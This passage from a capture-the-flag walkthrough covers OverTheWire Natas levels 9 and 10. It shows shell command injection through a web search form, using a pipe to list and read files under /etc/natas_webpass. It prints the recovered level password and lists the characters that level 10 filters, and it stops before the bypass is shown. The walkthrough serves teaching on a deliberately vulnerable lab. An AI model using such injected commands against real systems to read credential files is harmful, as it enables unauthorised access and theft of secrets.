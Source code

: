 ```text
dogwood  
dogwood's  
dogwoods  
underdog  
underdog's  
underdogs  
watchdog  
watchdog's  
watchdogs  
```
I got back the words which contains the substring `dog`.
However...  
```bash
| ls /etc/natas_webpass
```

We can write in commands like these.  
And the output will be (shortened):

```text
/etc/natas_webpass:  
natas0  
natas1  
natas10  
natas11  
natas12  
natas13  
natas14  
...  
```
So, we can simply grab that password we need, by typing:

```bash
| cat /etc/natas_webpass/natas10
```
And the password is ours!  
The password for level 10 is:

`D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE`

**Natas Level 10**  
http://natas10.natas.labs.overthewire.org/  
username: `natas10`  
password: `D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE`  

Our task is basically the same, however with some modifications:  
The script now filters certain keys, like:  

- ; 
- |
- &

So, if we try to write in the previous answer:  